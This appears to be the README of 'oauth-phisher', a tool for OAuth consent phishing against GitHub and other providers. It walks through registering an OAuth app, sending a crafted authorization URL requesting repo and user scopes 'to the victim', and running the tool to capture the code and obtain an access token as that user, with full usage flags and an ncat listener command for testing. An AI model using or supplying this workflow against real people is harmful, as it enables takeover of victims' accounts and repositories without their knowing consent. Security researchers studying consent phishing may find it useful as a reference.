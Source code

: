 # OAuth Phisher

Got a GitHub OAuth app? What happens if someone authorizes it? Works for multiple OAuth providers.

Send a user the auth URL and use this to easily get an access token

You'll want a valid Lets Encrypt certificate

### Pre-req

1. Create an GitHub OAuth App. Also works with GitHub Apps
2. Record your ClientID, Client Secret, Redirect URI
3. Send the authorization URL to the victim
  1. `https://github.com/login/oauth/authorize?client_id=<yourclientID>&redirect_url=https://github.com&scope=repo,user&state=thesubtlety-oauth-phisher`
4. Run `oauth-phisher` to recieve the code and obtain an auth token as the user

## Usage
```
oauth-phisher \
  -cert /etc/letsencrypt/live/example.com/fullchain.pem \ 
  -key /etc/letsencrypt/live/example.com/privkey.pem \
  -client-id [clientid] \
  -client-secret "[secret]" \
  -redirect-uri "[thishost]/callback"
  

Usage of ./oauth-phisher:
  -api string
        API URL (default "https://api.github.com")
  -callback-path string
        app callback path (default "/callback")
  -cert string
        path to cert file
  -client-id string
         ClientID
  -client-secret string
         Client Secret
  -key string
        path to key file
  -oauth string
        oauth access token endpoint (default "https://github.com/login/oauth/access_token")
  -port string
        port to serve on (default "443")
  -redir string
        where to send the user after adding the oauth app (default "https://github.com")
  -redirect-uri string
         Redirect URL
```

### Testing
```
ncat -lvp 443 --ssl-key /etc/letsencrypt/live/example.com/privkey.pem --ssl-cert /etc/letsencrypt/live/example.com/fullchain.pem
```